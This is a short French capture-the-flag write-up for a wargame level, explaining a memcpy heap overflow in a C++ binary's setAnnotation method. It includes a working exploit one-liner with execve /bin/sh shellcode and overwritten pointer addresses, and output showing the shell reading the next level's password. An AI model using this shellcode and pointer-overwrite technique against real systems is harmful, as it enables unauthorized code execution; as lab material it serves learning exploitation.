 #### Etape 1 : Décompilation
L'executable est en C++, il instancie des classe N puis appelle une méthode *setAnnotation* qui éxécute un memcpy sur l'argument passé au binaire pour copier son contenu dans une instance N. 
Aprés le memcpy l'instance N exécutera l'un de ces pointeurs.

#### Etape 2 : Objectif

Exploiter la faille de memcpy pour réecrire les adresses qui suivent et éxécuter un */bin/sh*.

#### Etape 3 : Informations manquantes

On cherche d'abord l'offset pour réecrire une adresse.
Il se trouve a 108 caractères.
Cependant si on écris un shellcode avec le nombre de caractères pour compléter ça ne fonctionne pas on segfault.
En cherchant on s'aperçoit que le programme appelle un autre pointeur.

La solution est donc d'écrire d'abord l'adresse du pointeur qui sera déréférencer, ajouter le shellcode puis terminer par le premier pointeur qui sera appeler.

#### Etape 4 : Execution 

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08"  + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a" * 83 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```